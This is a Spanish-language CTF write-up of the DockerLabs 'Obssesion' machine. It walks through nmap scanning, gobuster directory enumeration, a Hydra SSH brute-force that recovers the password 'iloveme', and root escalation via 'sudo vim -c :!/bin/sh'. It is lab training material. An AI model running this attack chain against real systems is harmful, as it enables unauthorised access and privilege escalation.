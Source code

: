 ## WRITEUP DE LA MÁQUINA OBSSESION DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolución de una máquina o CTF.

```shell
└─$ nmap -sV -sC 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br><br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br><br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br><br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que me tardaba mucho hacer el escaneo y para algo tan sencillo es más eficaz y rapido ejecutar un comando más corto.

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-18 04:47 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00018s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.19 seconds
```

Observamos que los puertos 21, 22 y 80 de los servicios ftp, ssh, http respectivamente estan abiertos, vamos a tirar por observar la dirección IP en algún buscador ya que el servicio http esta abierto. Vemos la siguiente página:
<br><br>
![foto de la pagina web](https://github.com/user-attachments/assets/63946c0e-9f99-43b0-86e5-13bdaec9e64c)
)
<br><br>
Mediante fuzzing web con la herramienta gobuster (hay más herramientas como wfuzz) vamos a buscar directorios ocultos en dicha página web. Ejecutamos:

```shell
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.17.0.2/.
<br><br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br><br>
"-x" Especifica las extensiones de archivos que Gobuster intentará agregar a cada entrada en la lista de palabras. En este caso, Gobuster probará cada palabra con las extensiones .php Esto significa que si una entrada en la lista de palabras es admin, Gobuster probará admin.php

Obtenemos:
<br>

```shell
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/backup               (Status: 301) [Size: 309] [--> http://172.17.0.2/backup/]
/important            (Status: 301) [Size: 312] [--> http://172.17.0.2/important/]
/server-status        (Status: 403) [Size: 275]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

Viendo los directorios ocultos del sitio web, probamos a meter en la url http://172.17.0.2/backup/ y nos muestra otra pagina con fichero llamado "Backup.txt"
<br><br>
![foto del fichero backup.txt](https://github.com/user-attachments/assets/10d75e0e-252f-40a6-a465-14bdf2f65887)
)
<br><br>
Si pinchamos en el, nos muestra una línea de texto que dice llamarse "russoski" como usuario. En el otro directorio llamada "important" encontramos un fichero .md donde hay un escrito sobre una historia de hacking, algo interesante pero nada relevante para el writeup.
<br><br>
![foto que muestra el nombre de usuario](https://github.com/user-attachments/assets/a32a3fab-06af-4d01-95d3-6cfdd6335965)
)
<br><br>
Sabiendo el nombre de usuario vamos a realizar un ataque de fuerza bruta con hydra al servicio ssh con nombre "russoski", usaremos la wordlits "rockyou.txt"
<br>
```sh
└─$ hydra -l russoski -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2/ -t 5
```
"-l russoski" Indica qué nombre de usuario va a usar en el ataque, en este caso buscamos a russoski.
<br><br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist.
<br><br>
"ssh://172.17.0.2/" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br><br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña. (Nos va a tomar un par de minutos)

Este es el resultado:
<br>

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-18 11:45:10
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 50.00 tries/min, 50 tries in 00:01h, 14344349 to do in 4781:27h, 5 active
[STATUS] 35.00 tries/min, 105 tries in 00:03h, 14344294 to do in 6830:37h, 5 active

[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-18 11:48:32
```
Encontramos en la línea apartada (la he separado yo para que sea más legible), que la contraseña es "iloveme". Ahora toca mediante conexion ssh entrar al usuario russoski. Hay veces que se cierra la conexion con un WARNING: REMOTE  HOST IDENTIFICATION HAS CHANGED!, para solucionar solo hay que ejecutar el ssh con un sudo delante:
<br>

```
└─$ sudo ssh russoski@172.17.0.2
```
```
[sudo] password for kali: 
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:R8ZiOJN33rhfvGADBLwVQ1mPV7lSmGJACOhjdTB0wMQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
russoski@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Jun 18 04:38:10 2024 from 172.17.0.1
russoski@1df4a6f0847e:~$ 
```
Toca escalar privilegios. Escribimos el comando "sudo -l" el cual  permite a un usuario verificar qué comandos tienen permiso para ejecutar como superusuario (o cualquier otro usuario especificado).

```
russoski@1df4a6f0847e:~$ sudo -l
Matching Defaults entries for russoski on 1df4a6f0847e:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on 1df4a6f0847e:
    (root) NOPASSWD: /usr/bin/vim
```
Ya sabemos que hacer, ir a la página GTFObins (https://gtfobins.github.io/#) para escalar privilegios en este caso con el binario "vim". Con buscar "vim" en el buscador de la página e ir al partado de sudo, encontramos nuestra forma de ser root, en este caso tendremos que ejecutar " sudo vim -c ':!/bin/sh' "

```
russoski@1df4a6f0847e:~$ sudo vim -c ':!/bin/sh'
# whoami
root
```
Ya somos root, espero que os haya gustado este writeup, muchas gracias!
